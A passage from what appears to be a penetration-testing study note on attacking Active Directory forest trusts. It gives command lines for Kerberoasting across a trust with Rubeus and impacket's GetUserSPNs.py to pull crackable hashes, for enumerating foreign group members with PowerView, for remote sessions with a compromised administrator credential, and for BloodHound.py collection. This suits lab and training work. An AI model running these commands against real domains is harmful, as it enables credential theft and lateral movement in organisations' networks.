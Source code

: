 If we see an account with an SPN, check the user to see their privileges:
```console
PS C:\zeropio> Get-DomainUser -Domain <DOMAIN> -Identity <USER> |select samaccountname,memberof
```

Let's perform a Kerberoasting attack across the trust using Rubeus. We can use the flag `/domain:` to do it:
```console
PS C:\zeropio> .\Rubeus.exe kerberoast /domain:<DOMAIN> /user:<USER> /nowrap
```

We can face a bidirectional forest trust managed by admins from the same company. It is worth checking for password reuse accross the two forest in this situation. We may see a Domain Admin or Enterprise Admin from Domain A as a member of the built-in Administrators group in Domain B in a bidirectional forest trust relationship.We can use the PowerView function `Get-DomainForeignGroupMember` to enumerate groups with users that do not belong to the domain:
```console
PS C:\zeropio> Get-DomainForeignGroupMember -Domain <DOMAIN>
```

We can now access other domains if we have the credential for one user:
```console
PS C:\htb> Enter-PSSession -ComputerName <COMPUTER NAME>.<DOMAIN>.LOCAL -CredentiaL <DOMAIN>\administrator
```

SID History can also be abused across a forest trust.

## From Linux 

We can perform this with **GetUserSPNs.py**, using the flag `-target-domain`:
```console
zero@pio$  GetUserSPNs.py -target-domain <DOMAIN 1> <TARGET DOMAIN>/<USER>
```

We can also use the `-request` to get all the hashes and to output to a file with `-outputfile <OUTPUT FILE>`. We can also use [BloodHound.py](https://github.com/fox-it/BloodHound.py). First, add the domain to the `/etc/resolv.conf`{: .filepath}:
```console
cat /etc/resolv.conf 

# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain <DOMAIN>.LOCAL
nameserver <DC IP>
```

Now we can run the tool as:
```console
zero@pio$ bloodhound-python -d <DOMAIN>.LOCAL -dc <DC COMPUTER NAME> -c All -u <USER> -p <PASSWORD>
```
